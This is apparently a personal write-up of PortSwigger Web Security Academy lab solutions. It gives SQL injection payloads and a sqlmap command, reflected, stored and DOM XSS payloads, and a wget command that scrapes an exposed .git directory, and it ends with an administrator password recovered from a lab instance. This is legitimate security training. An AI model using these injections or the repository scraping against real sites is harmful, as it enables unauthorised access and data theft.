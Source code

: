 # Mystery lab challenge

[https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs)

# Table of Contents

- [Mystery lab challenge](#mystery-lab-challenge)
- [Table of Contents](#table-of-contents)
- [SQL injection](#sql-injection)
  - [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#lab-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
    - [Check with sqlmap](#check-with-sqlmap)
  - [SQL injection vulnerability allowing login bypass](#sql-injection-vulnerability-allowing-login-bypass)
- [Information disclosure](#information-disclosure)
  - [Lab: Information disclosure in version control history](#lab-information-disclosure-in-version-control-history)
      - [Download Git Repo](#download-git-repo)
      - [Browse .git repo with command line `git` client](#browse-git-repo-with-command-line-git-client)



# SQL injection

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:
> 
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1
> To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Check with sqlmap

`sqlmap -u https://ac2c1fc91f0b7373c08708640007008f.web-security-academy.net/filter\?category\=Gifts`

![](assets/16512131974263.png)
![](assets/16512132501893.png)

### Solution:
> https://ac3a1f901e2f8e40c0277bda00020033.web-security-academy.net/filter?category=Pets'+OR+1=1--




## SQL injection vulnerability allowing login bypass

> This lab contains an SQL injection vulnerability in the login function.
> 
> To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.


### Solution

%' OR '0'='0

![](assets/16512172833793.png)


# Cross-site scripting

## Lab: Reflected XSS into HTML context with nothing encoded

> This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.
> 
> To solve the lab, perform a cross-site scripting attack that calls the alert function.

### Solution
Put this into search field:
`<script>alert("hacked")</script>`

## Lab: Stored XSS into HTML context with nothing encoded

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the blog post is viewed.


### Solution

![](assets/16512197656509.png)

![](assets/16512197783830.png)

## Lab: DOM XSS in document.write sink using source location.search


> This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

### Solution

`"><script>alert("hacked")</script>`

![](assets/16512211489269.png)

## Lab: DOM XSS in innerHTML sink using source location.search

> This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

### Solution

`'<iframe src="javascript:alert('hacked')"></iframe>`


## DOM XSS in jQuery anchor href attribute sink using location.search source

> This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.
> 
> To solve this lab, make the "back" link alert document.cookie.

### Solution




# Information disclosure


## Lab: Information disclosure in version control history

> This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

#### Download Git Repo
wget -r https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/.git/

#### Browse .git repo with command line `git` client

![](assets/16512107837482.png)

https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/my-account
\
User: administrator
\
Password: eoj2zssgznqxoo2p3icm


